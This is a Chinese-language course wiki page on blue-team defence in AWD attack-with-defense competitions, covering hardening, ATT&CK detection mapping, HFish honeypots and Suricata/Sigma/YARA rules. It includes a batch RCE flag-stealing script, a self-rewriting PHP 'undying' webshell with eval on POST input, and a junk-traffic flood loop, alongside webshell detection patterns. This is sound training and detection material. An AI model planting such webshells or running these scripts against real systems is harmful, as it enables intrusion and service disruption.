

## 概述

本页面系统整理 XD安全渗透测试课程 Day80-82「红蓝对抗」阶段的蓝队防御知识体系，聚焦四大核心板块：

1. **AWD 攻防兼备赛制** —— 规则机制、比赛流程、加固与利用并行策略、批量化 Flag 提交脚本、不死马原理与克制、搅屎棍干扰战术、inotify 文件监控防御、微型 WAF 部署
2. **ATT&CK 框架蓝队映射** —— 技术矩阵识别、检测覆盖率评估、威胁情报关联分析
3. **HFish 开源蜜罐平台** —— 部署架构、高交互/低交互蜜罐配置、攻击者溯源取证流程
4. **NIDS/HIDS 入侵检测系统** —— 选型对比、部署拓扑、规则编写方法论、对抗中的规则迭代

> 关联页面：[[xd-security-awd-competition-strategies]]（AWD 赛制与攻防策略详解）、[[xd-security-pentest-course-curriculum]]（课程全景大纲）、[[xd-security-incident-response-notes]]（应急响应全流程）

---

## 一、AWD 攻防兼备赛制：蓝队加固与监控体系

### 赛制规则与扣分模型

| 维度 | 说明 |
|------|------|
| **核心机制** | Attack With Defense：同时扮演攻击方与防守方，攻击得分、失守扣分 |
| **Flag 刷新周期** | 通常 5-10 分钟/轮，下一轮漏洞未修复可继续利用 |
| **常见扣分状态** | Pick 失败（服务不可用）、被攻击（Flag 被拿走）、两者叠加 |
| **典型漏洞类型** | 文件上传、文件包含、命令执行、反序列化、SQL 注入等常见 Web 漏洞 |

> 实战提示：若 Pick 失败与被攻击扣分权重相当，**优先考虑「删库止损」**，再逐步修复漏洞恢复服务。

### 蓝队分工与时间线

```
阶段 1（开赛前 30min）：SSH 登录 → 环境确权 → 全量备份（源码/数据库/配置）
阶段 2（加固期）：代码审计（Seay/D盾/RIPS） → 漏洞分级 → 优先修复高危 RCE/上传/反序列化
阶段 3（对抗期）：部署监控（inotify/WAF/蜜罐） → 编写批量攻击脚本 → 实时日志溯源 → 动态规则更新
阶段 4（收尾期）：清理后门 → 验证服务可用性 → 生成复盘报告
```

### 核心防御组件部署清单

| 组件 | 部署位置 | 核心作用 | 典型配置要点 |
|------|----------|----------|--------------|
| **inotify 文件监控** | Web 根目录、上传目录、配置目录 | 实时感知文件创建/修改/删除，触发告警或自动隔离 | `inotifywait -mrq -e create,modify,delete,move /var/www/html \| while read; do alert; done` |
| **微型 WAF** | Nginx/Apache 前置、PHP `auto_prepend_file` | 请求级屏蔽 SQLi/XSS/RCE/文件包含特征，支持正则/语义分析 | `require_once('waf.php');` 覆盖 `$_GET/$_POST/$_COOKIE/$_REQUEST` |
| **批量 Flag 提交脚本** | 攻击机/跳板机 | 多线程/协程并发提交，异常重试、Token 刷新、结果入库 | 见下文脚本模板 |
| **流量镜像与日志聚合** | 核心交换机 SPAN 端口 / Syslog 收集器 | 全量 PCAP 留存、Web/系统/数据库日志集中化，支撑赛后溯源 | `tcpdump -i eth0 -w /data/pcap/awd_$(date +%H%M).pcap -C 100 -W 10` |

#### 批量 Flag 提交脚本模板（Python 3）

```python
import requests, threading, time, re
from queue import Queue

TARGETS = [f"10.10.10.{i}" for i in range(1, 21)]
FLAG_REGEX = re.compile(r"flag\{[a-zA-Z0-9_\-]+\}")
SUBMIT_API = "http://10.10.10.254/api/submit"
TEAM_TOKEN = "YOUR_TEAM_TOKEN"

def exploit(host):
    # 示例：命令执行漏洞利用
    try:
        r = requests.post(f"http://{host}/vuln.php", data={"cmd": "cat /flag"}, timeout=3)
        flags = FLAG_REGEX.findall(r.text)
        return flags
    except Exception as e:
        return []

def submit(flags):
    for flag in flags:
        try:
            requests.post(SUBMIT_API, json={"token": TEAM_TOKEN, "flag": flag}, timeout=2)
        except: pass

def worker(q):
    while not q.empty():
        host = q.get()
        flags = exploit(host)
        if flags: submit(flags)
        q.task_done()

if __name__ == "__main__":
    q = Queue()
    for h in TARGETS: q.put(h)
    for _ in range(10): threading.Thread(target=worker, args=(q,), daemon=True).start()
    q.join()
```

### 不死马（Undying Webshell）攻防博弈

#### 原理剖析

```php
<?php
// 不死马核心：无限循环 + 文件自写入 + 睡眠竞争
$file = __FILE__;
$code = '<?php eval($_POST[1]);?>';  // 核心 Payload
while (true) {
    file_put_contents($file, $code);  // 覆盖自身
    usleep(1000);  // 1ms 级竞争窗口
}
?>
```

| 特征 | 说明 |
|------|------|
| **触发方式** | 仅需访问一次，进程常驻内存持续写入 |
| **抗删特性** | `unlink` 删除文件后，文件句柄仍在内存，下次循环 `file_put_contents` 会重建同名文件 |
| **抗改特性** | 任何修改尝试均会在下一个循环周期被覆盖回原 Payload |

#### 蓝队克制方案对比

| 方案 | 原理 | 优势 | 局限 |
|------|------|------|------|
| **更短睡眠竞争脚本** | 写入相同文件名、更短 `usleep(100)` 覆盖为空/正常代码 | 无需杀进程，纯应用层对抗 | 需先发现不死马文件路径；高并发下可能仍失效 |
| **杀进程 + 文件锁** | `fuser -k /var/www/html/shell.php` → `chattr +i` 锁定 | 彻底终结写入循环 | 需 root 权限；`chattr` 可能被比赛规则禁止 |
| **inotify + 自动隔离** | 监控到高频写入同一文件 → 自动 `mv` 隔离 + 告警 | 自动化、无侵入、可审计 | 需调优阈值避免误报（如正常缓存写入） |
| **PHP `open_basedir` / `disable_functions`** | 限制 `file_put_contents`、`fopen`、`exec` 等危险函数 | 根因阻断，兼容性好 | 可能影响业务功能；需白名单精细化 |

> 实战建议：**「进程级终结 + 文件级锁定 + 审计级留痕」三位一体**。比赛若禁止不死马，优先用 `chattr +i` 锁定核心目录，配合 inotify 记录对抗过程作为申诉证据。

### 搅屎棍战术与流量干扰对抗

```bash
# 攻击侧：发送大量垃圾包干扰蓝队流量分析
while true; do
    curl -X POST "http://target/vuln.php" -d "junk=$(head -c 1024 /dev/urandom | base64)" &
    sleep 0.01
done
```

**蓝队应对**：
- **流量基线建模**：建立正常 QPS、请求长度、参数熵值基线，异常突增自动触发限流/封禁
- **蜜罐诱捕**：部署高仿真假漏洞端点，吸引搅屎棍流量，实现「以战养战」溯源
- **PCAP 分片存储**：按时间/大小滚动存储，配合 `tshark -Y "http.request"` 快速定位有效载荷

---

## 二、ATT&CK 框架蓝队映射方法论

### 核心认知目标

> 原文要求掌握的六大能力：
> 1. 认识 ATT&CK 框架技术
> 2. 认识对抗的蜜罐技术的本质
> 3. 掌握 WAF 产品部署以及应用
> 4. 掌握 IDS 在对抗中的部署应用
> 5. 掌握威胁情报平台对象报告分析
> 6. 书写报告的专业性

### ATT&CK 矩阵与检测覆盖率矩阵

| 战术 | 典型技术 | 蓝队检测数据源 | 检测规则示例 | 覆盖状态 |
|------|----------|----------------|--------------|----------|
| **初始访问** | T1190 利用面向公网应用 | NIDS/WAF/访问日志 | `alert http any -> $WEB_SERVERS (msg:"WEB_ATTACK SQLi"; pcre:"/union.*select/i";)` | ✅ |
| **执行** | T1059.004 Unix Shell | HIDS/Sysmon/审计日志 | `rule: process_create where command_line contains "bash -c" and parent != "sshd"` | ✅ |
| **持久化** | T1505.003 Web Shell | 文件监控/文件完整性/FIM | `inotify: /var/www/**/*.php create/modify -> virustotal/yara scan` | ⚠️ |
| **权限提升** | T1068 利用漏洞提权 | 内核审计/漏洞扫描/容器逃逸检测 | `audit: syscall=execve and exe="/bin/bash" and uid!=0 -> euid=0` | ❌ |
| **凭证获取** | T1003.001 LSASS 内存 | EDR/内存扫描/蜜罐凭证 | `sysmon EventID=10 TargetImage=lsass.exe GrantedAccess=0x1fffff` | ⚠️ |
| **横向移动** | T1021.002 Pass the Hash | NIDS/Kerberos 日志/蜜罐 | `alert smb any -> any (msg:"SMB Pass-the-Hash"; pcre:"/NTLMSSP.*NTLMv2/";)` | ✅ |
| **数据窃取** | T1041 命令控制通道 | 流量基线/DNS 隧道检测/蜜罐 | `zeek: dns_query where qtype=TXT and length > 200` | ⚠️ |

> 覆盖状态：✅ 已部署规则 ⚠️ 部分覆盖/需调优 ❌ 盲区（需补齐数据源或规则）

### 威胁情报驱动的 ATT&CK 标签化



**实战输出**：每周生成「ATT&CK 覆盖率热力图」+「Top 5 盲区技术补齐计划」+「高危技术专项排查报告」。

---

## 三、HFish 开源蜜罐平台：部署与溯源实战

### 架构总览

```
┌─────────────────────────────────────────────────────────────┐
│                    HFish 控制中心 (Server)                   │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐  ┌────────────┐  │
│  │ 节点管理  │  │ 蜜罐配置  │  │ 攻击日志  │  │ 威胁情报   │  │
│  └──────────┘  └──────────┘  └──────────┘  └────────────┘  │
└─────────────────────────────────────────────────────────────┘
          ▲                    ▲                    ▲
    gRPC/HTTP              gRPC/HTTP             Syslog/Kafka
          │                    │                    │
┌─────────┴─────────┐ ┌──────┴──────┐ ┌─────────┴─────────┐
│  蜜罐节点 - Web   │ │ 蜜罐节点-SSH│ │  蜜罐节点-数据库  │
│  (高交互/低交互)  │ │  (Cowrie)   │ │  (MySQL/Redis)    │
└───────────────────┘ └─────────────┘ └───────────────────┘
```

> 官方文档：https://hfish.io/#/?id=hfish设计理念

### 快速部署（Docker Compose 生产级配置）

```yaml
# docker-compose.yml
version: '3.8'
services:
  hfish-server:
    image: hfish/hfish:latest
    container_name: hfish-server
    ports:
      - "4433:4433"   # Web 管理端口
      - "1122:1122"   # 节点通信端口
    volumes:
      - ./data:/hfish/data
      - ./logs:/hfish/logs
    environment:
      - HFISH_SERVER_ADDR=0.0.0.0:4433
      - HFISH_NODE_ADDR=0.0.0.0:1122
      - HFISH_DB_TYPE=sqlite3
    restart: always

  hfish-node-web:
    image: hfish/hfish-node:latest
    container_name: hfish-node-web
    depends_on: [hfish-server]
    environment:
      - HFISH_SERVER=hfish-server:1122
      - HFISH_NODE_TYPE=web
      - HFISH_WEB_PORT=80,443,8080,8443
    restart: always

  hfish-node-ssh:
    image: hfish/hfish-node:latest
    container_name: hfish-node-ssh
    depends_on: [hfish-server]
    environment:
      - HFISH_SERVER=hfish-server:1122
      - HFISH_NODE_TYPE=ssh
      - HFISH_SSH_PORT=2222
    restart: always

  hfish-node-mysql:
    image: hfish/hfish-node:latest
    container_name: hfish-node-mysql
    depends_on: [hfish-server]
    environment:
      - HFISH_SERVER=hfish-server:1122
      - HFISH_NODE_TYPE=mysql
      - HFISH_MYSQL_PORT=3306
    restart: always
```

### 高交互 vs 低交互蜜罐选型指南

| 维度 | 低交互 | 高交互 |
|------|--------|--------|
| **实现方式** | 协议模拟/服务仿真 | 真实服务容器/虚拟机 |
| **部署成本** | 低（单进程多端口） | 高（需隔离环境、快照回滚） |
| **捕获深度** | 连接源 IP、Payload、简单交互 | 完整攻击链、后渗透行为、工具痕迹 |
| **风险等级** | 极低（无真实漏洞） | 中高（需严格网络隔离、防横向移动） |
| **适用场景** | 互联网资产暴露面监测、自动化扫描器画像 | 定向攻击/APT 溯源、红蓝对抗核心资产诱捕 |

**AWD 赛场推荐**：核心业务服务旁部署**低交互 Web/SSH/数据库蜜罐**，端口与真实服务错位（如真实 SSH 22，蜜罐 2222），捕获扫描器与自动化攻击脚本；关键跳板机部署**高交互 Cowrie SSH 蜜罐**，记录攻击者交互全过程。

### 攻击者溯源取证流程

```
阶段 1：告警触发
    HFish 攻击日志 → 解析攻击者 IP、User-Agent、Payload、工具指纹

阶段 2：关联分析
    ├─ 威胁情报比对（VT/AbuseIPDB/内部情报库）→ 判定已知组织/僵尸网络/扫描器
    ├─ 历史日志回溯（NIDS/HIDS/防火墙/WEB日志）→ 还原完整攻击路径
    └─ 蜜罐交互录屏 → 行为画像（手工/自动化、技能水平、目标意图）

阶段 3：证据固化
    ├─ PCAP 全量留存（攻击前 5min - 后 30min）
    ├─ 蜜罐节点快照（高交互环境磁盘/内存镜像）
    └─ 链上存证/时间戳服务 → 确保证据不可篡改

阶段 4：报告输出
    ├─ 技术溯源报告：攻击链复现、IOC 列表、ATT&CK 映射
    ├─ 战略建议：封锁策略、加固优先级、盲区补齐
    └─ 法律移交包：符合《网络安全法》/《数据安全法》取证规范
```

#### 典型 IOC 输出模板

```json
{
  "incident_id": "AWD-20240115-001",
  "timestamp": "2024-01-15T14:32:11+08:00",
  "attacker": {
    "ip": "203.0.113.45",
    "asn": "AS4808 China Unicom",
    "geo": "Beijing, China",
    "tools": ["sqlmap/1.6", "dirsearch/0.4.2", "custom_php_webshell"],
    "ttp": ["T1190", "T1059.007", "T1505.003"]
  },
  "target": {
    "honeypot": "hfish-node-web-01",
    "service": "HTTP/8080",
    "vuln_simulated": "ThinkPHP 5.0.23 RCE"
  },
  "evidence": {
    "pcap": "s3://ir-evidence/awd-20240115-001.pcap",
    "logs": ["hfish_attack_20240115.log", "suricata_eve.json"],
    "snapshot": "hfish-node-web-01_snapshot.qcow2"
  }
}
```

---

## 四、NIDS/HIDS 入侵检测系统：选型、部署与规则工程化

### 选型对比矩阵

| 维度 | **Suricata (NIDS)** | **Zeek (NIDS)** | **Wazuh (HIDS)** | **OSSEC (HIDS)** | **CrowdSec (混合)** |
|------|---------------------|-----------------|------------------|------------------|---------------------|
| **检测模式** | 规则匹配/协议解析 | 协议解析/行为建模 | 日志分析/文件完整性/Rootkit | 日志分析/文件完整性/策略监控 | 社区规则/行为分析/协同封禁 |
| **性能** | 多线程/AF_PACKET/DPDK | 单线程/集群模式 | Agent 端轻量/Manager 端重 | Agent 端轻量/Server 端中 | Go 编写/高并发 |
| **规则生态** | Emerging Threats/ET Pro/自定义 | 社区脚本/自定义脚本 | 规则库/PCI-DSS/GDPR 模板 | 规则库/合规模板 | Hub 社区/自定义场景 |
| **集成能力** | Eve JSON/Syslog/Kafka | Kafka/Elasticsearch/Splunk | Elasticsearch/Kibana/Slack | Syslog/Email/Slack | Prometheus/Grafana/bouncer |
| **AWD 适用性** | ⭐⭐⭐⭐⭐ 实时阻断、高性能 | ⭐⭐⭐⭐ 全量取证、协议还原 | ⭐⭐⭐⭐ 主机维度持久化监控 | ⭐⭐⭐ 成熟稳定、社区大 | ⭐⭐⭐⭐ 协同防御、易部署 |

> 推荐组合：**Suricata (网络层实时阻断) + Wazuh (主机层持久化监控) + Zeek (赛后全量取证)**，三者日志统一输出至 Elasticsearch/Kafka，构建「网端主」立体检测体系。

### 部署拓扑最佳实践

```
                    ┌──────────────────┐
                    │  核心交换机 SPAN │
                    └────────┬─────────┘
                             │
              ┌──────────────┼──────────────┐
              ▼              ▼              ▼
        ┌──────────┐  ┌──────────┐  ┌──────────┐
        │ Suricata │  │   Zeek   │  │  全量PCAP│
        │  Inline  │  │  Cluster │  │  存储节点 │
        └────┬─────┘  └────┬─────┘  └──────────┘
             │             │
             ▼             ▼
        ┌─────────────────────────┐
        │     Kafka / Logstash    │
        └───────────┬─────────────┘
                    │
        ┌───────────┼───────────┐
        ▼           ▼           ▼
   ┌────────┐ ┌────────┐ ┌────────┐
   │Elastic │ │ Grafana│ │  SOAR  │
   │search  │ │告警看板 │ │自动响应 │
   └────────┘ └────────┘ └────────┘
                    ▲
                    │
        ┌───────────┴───────────┐
        ▼                       ▼
   ┌────────┐              ┌────────┐
   │ Wazuh  │              │ CrowdSec│
   │ Manager│              │  Bouncer│
   └────┬───┘              └────┬───┘
        │                       │
   ┌────┴────┐             ┌────┴────┐
   │Agent(各业务服务器)    │Edge Firewall/Cloud WAF
   └─────────┘             └─────────┘
```

**关键点**：
- Suricata **Inline/IPS 模式**部署于核心链路，支持 `drop`/`reject` 动作实时阻断
- Zeek 采用 **Cluster 模式** 水平扩展，配合 `pcap` 写入对象存储，保证取证完整性
- Wazuh Agent 覆盖**所有业务服务器**（含蜜罐节点），监控文件完整性、进程异常、登录审计、Rootkit
- CrowdSec Bouncer 对接边界防火墙/云厂商 API，实现**「一处检测、全网封禁」**

### 检测规则编写方法论：从 ATT&CK 到 Sigma/Suricata/YARA

#### 规则生命周期

```
需求来源 → 威胁建模 → 规则编写 → 单元测试 → 灰度部署 → 效果评估 → 迭代优化 → 归档
   ▲                                                                              │
   └─────────────────────────── 持续反馈闭环 ────────────────────────────────────┘
```

#### 规则编写四要素

| 要素 | 说明 | 示例 |
|------|------|------|
| **触发条件** | 协议字段/日志字段/行为序列 | `http.uri contains "cmd=" and http.method == "POST"` |
| **上下文约束** | 白名单/基线/频率/关联 | `not (src_ip in $ADMIN_IPS) and count(by_src, 1min) > 10` |
| **响应动作** | 告警/阻断/隔离/蜜罐诱捕 | `action: alert, block_src_ip(300s), trigger_honeypot` |
| **元数据标签** | ATT&CK ID/严重级/作者/版本 | `mitre: T1190, T1059.007; severity: high; author: blue-team` |

#### 实战规则示例库

**Suricata：Web 攻击检测规则（含 AWD 常见漏洞）**

```yaml
# file: rules/awd-web-attacks.rules
# T1190 Exploit Public-Facing Application
alert http $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (
    msg:"AWD_WEB ThinkPHP 5.x RCE Attempt";
    flow:established,to_server;
    http.uri; pcre:"/(\/index\.php\?s=|\/public\/index\.php\?s=).*_(method|function|filter)=/i";
    classtype:web-application-attack;
    sid:2024001; rev:1;
    metadata:mitre_tactic "Initial Access", mitre_technique "T1190";
)

alert http $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (
    msg:"AWD_WEB PHP File Upload Bypass Attempt";
    flow:established,to_server;
    http.header; content:"multipart/form-data"; fast_pattern;
    http.client_body; pcre:"/\.php(\.|%00|\x00).*(jpg|png|gif)/i";
    classtype:web-application-attack;
    sid:2024002; rev:1;
    metadata:mitre_tactic "Initial Access", mitre_technique "T1190";
)

# T1059.007 Command and Scripting Interpreter: JavaScript/JScript
alert http $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (
    msg:"AWD_WEB PHP eval/assert Webshell Execution";
    flow:established,to_server;
    http.client_body; pcre:"/(eval|assert|system|shell_exec|passthru|proc_open)\s*\(/i";
    threshold:type both, track by_src, count 5, seconds 60;
    classtype:web-application-activity;
    sid:2024003; rev:1;
    metadata:mitre_tactic "Execution", mitre_technique "T1059.007";
)
```

**Sigma：Linux 主机层异常行为检测（Wazuh/Elastic 对接）**

```yaml
# file: sigma/linux_suspicious_process_creation.yml
title: Suspicious Shell Spawn from Web Server Process
id: 20240115-awd-webshell-spawn
status: test
description: Detect shell (bash/sh/zsh) spawned by web server user (www-data/nginx/apache), typical for webshell post-exploitation.
author: Blue Team
date: 2024/01/15
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        ParentImage|endswith:
            - '/usr/sbin/nginx'
            - '/usr/sbin/apache2'
            - '/usr/sbin/httpd'
            - '/usr/local/php/sbin/php-fpm'
        Image|endswith:
            - '/bin/bash'
            - '/bin/sh'
            - '/bin/zsh'
            - '/usr/bin/python*'
            - '/usr/bin/perl*'
    condition: selection
falsepositives:
    - Legitimate admin scripts triggered by web requests (add to allowlist)
level: high
tags:
    - attack.execution
    - attack.t1059.004
    - attack.t1505.003
```

**YARA：Webshell 静态特征规则（集成 inotify 扫描管道）**

```yara
rule AWD_PHP_Webshell_Generic
{
    meta:
        description = "Generic PHP webshell detection for AWD environment"
        author = "Blue Team"
        date = "2024-01-15"
        mitre = "T1505.003"
        severity = "high"
    strings:
        $eval_assert   = /(eval|assert)\s*\(/ nocase
        $system_funcs  = /(system|shell_exec|passthru|exec|proc_open|popen)\s*\(/ nocase
        $superglobals  = /\$_(GET|POST|REQUEST|COOKIE|SERVER)\s*\[/ nocase
        $base64_decode = /base64_decode\s*\(/ nocase
        $gz_inflate    = /gzinflate\s*\(/ nocase
        $preg_replace  = /preg_replace\s*\(.*\/e/i
        $create_function = /create_function\s*\(/ nocase
    condition:
        filesize < 500KB and
        (any of ($eval_assert, $system_funcs, $preg_replace, $create_function) and
         any of ($superglobals, $base64_decode, $gz_inflate))
}
```

### 对抗中的规则迭代策略

| 阶段 | 红队行为 | 蓝队规则响应 | 迭代指标 |
|------|----------|--------------|----------|
| **侦察期** | 目录扫描、指纹识别、漏洞探测 | 404/403 高频阈值、User-Agent 熵值、扫描器指纹库 | 告警准确率 > 90%、误报率 < 5% |
| **武器化期** | Payload 编码/混淆、分块传输、协议隧道 | 语义层解码还原（多层 Base64/URL/Unicode）、流重组深度检测 | 绕过率 < 10%、解码覆盖率 > 95% |
| **投递期** | Webshell 上传、定时任务、计划任务、服务注册 | 文件创建监控 + YARA 实时扫描、进程树异常关联、持久化点轮询 | 发现时间 < 1min、阻断率 100% |
| **利用期** | 命令执行、反弹 Shell、提权、横向移动 | 行为基线偏离（进程/网络/文件）、ATT&CK 技术覆盖率、蜜罐诱捕率 | 平均检出时间 (MTTD) < 3min、平均响应时间 (MTTR) < 10min |

**规则版本管理建议**：
- 采用 **GitOps** 管理规则仓库，每条规则对应 `rule-id.yml`，含元数据、测试用例、变更日志
- CI/CD 流水线集成 **Suricata-verify / Sigma-cli / YARA-test** 自动化回归
- 灰度发布：`canary (10% 流量) → 观察 2h → 全量`，关键指标异常自动回滚

---

## 五、蓝队报告输出规范

### 赛中/赛后报告结构

```
1. 执行摘要
   - 关键指标：攻击次数、成功拦截率、Flag 丢失数、平均检出/响应时间
   - 重大事件：Top 3 高危攻击链复现、溯源归属结论

2. 攻击态势分析
   - 时间线热力图：攻击波次、工具分布、技术分布（ATT&CK 热力图）
   - 攻击者画像：IP/ASN/地理/工具/TTP/意图判定

3. 防御效能评估
   - 检测覆盖率矩阵（参考 2.2 表格）
   - 规则命中统计：Top 规则、漏报案例复盘、误报优化记录
   - 蜜罐捕获价值：高交互蜜罐录屏分析、新工具/新技术发现

4. 资产与漏洞台账
   - 存活资产清单、未修复漏洞列表（按 CVSS/EPSS 排序）、加固完成度

5. 改进计划
   - 短期（1 周）：规则补齐、盲区数据源接入、蜜罐扩容
   - 中期（1 月）：检测模型训练、SOAR 剧本自动化、威胁情报订阅优化
   - 长期（季度）：攻防演练常态化、红蓝紫协同机制、人才梯队建设

6. 附件
   - 全量 PCAP/日志索引、IOC 列表（STIX/CSV）、溯源证据包、规则变更记录
```

### 专业化写作要诀

| 维度 | 反模式 | 专业范式 |
|------|--------|----------|
| **术语** | "黑客植入木马" | "攻击者利用 T1190 初始访问，部署 T1505.003 Web Shell 实现持久化" |
| **因果** | "我们发现了攻击" | "Suricata 规则 SID:2024003 于 14:32:11 命中，关联 Wazuh Agent 进程创建告警，研判为 Web Shell 交互行为" |
| **量化** | "拦截了很多攻击" | "本轮共触发告警 1,247 条，经去重研判确认真实攻击 23 起，拦截成功 21 起，漏报 2 起（均为编码绕过），误报 18 条（已纳入白名单优化）" |
| **建议** | "加强防护" | "建议 48h 内完成：① 补充 Suricata 多层编码解码规则 3 条；② 接入 Zeek HTTP 日志至 ES，补齐 T1059.007 行为侧检测；③ 在跳板机部署高交互 Cowrie 蜜罐，捕获横向移动凭证" |

---

## 六、交叉引用与延伸阅读

### 知识库内关联页面

| 页面 | 关联点 |
|------|--------|
| [[xd-security-awd-competition-strategies]] | AWD 赛制规则、不死马攻防、inotify/WAF 部署细节 |
| [[xd-security-pentest-course-curriculum]] | 课程 Day80-82 在全景大纲中的定位 |
| [[xd-security-incident-response-notes]] | 应急响应全流程、日志分析、Webshell 溯源、自动化工具箱 |
| [[named-pipe-smb-detection-sysmon]] | Sysmon Event ID 17/18 命名管道检测、Cobalt Strike SMB Beacon 对抗 |
| [[c2-redirectors-malleable-c2-profiles]] | C2 基础设施隐匿、流量混淆、蓝队流量基线建模 |
| [[internal-network-pivoting-techniques]] | 内网穿透/横向移动工具（Frp/Venom/Cobalt Strike）蓝队检测视角 |
| [[ssrf-bypass-techniques]] / [[ssrf-ctf-exploitation-guide]] | SSRF 绕过与利用链、蓝队出站流量监控与 DNS 域名信誉 |
| [[php-webshell-obfuscation-av-evasion]] | PHP Webshell 混淆免杀技术、YARA 规则对抗迭代 |

### 外部权威资源

- **MITRE ATT&CK 官方矩阵**：https://attack.mitre.org/
- **HFish 官方文档**：https://hfish.io/#/?id=hfish设计理念
- **Suricata 规则编写指南**：https://suricata.readthedocs.io/en/latest/rules/intro.html
- **Sigma 规范仓库**：https://github.com/SigmaHQ/sigma
- **Wazuh 规则开发**：https://documentation.wazuh.com/current/user-manual/ruleset/decoders-rules.html
- **YARA 官方文档**：https://yara.readthedocs.io/en/stable/
- **CrowdSec 社区 Hub**：https://hub.crowdsec.net/

---

## 七、结语

蓝队防御的本质是**「在不对称对抗中建立可度量、可迭代、可归因的检测响应体系」**。本页面将 AWD 实战中的战术技法（不死马克制、inotify 监控、微型 WAF）、战略框架（ATT&CK 映射、威胁情报驱动）、工程化落地（HFish 蜜罐溯源、NIDS/HIDS 选型部署、规则工程化生命周期）串联成完整知识链路。

> **持续演进建议**：
> 1. **每周**产出 ATT&CK 覆盖率热力图 + Top 5 盲区补齐 PR
> 2. **每赛季**开展一次紫队演练（红队模拟 + 蓝队验证 + 规则迭代）
> 3. **每季度**向社区贡献 1-2 条高保真 Sigma/Suricata/YARA 规则，实现「以战养战、以贡促建」

---

*页面维护者：数字知识库策展人 | 最后更新：2024-01-15 | 版本：v1.0*

## 来源

- [0x00实验室-202108-202304_095](../sources/0x00实验室-202108-202304_095.md)
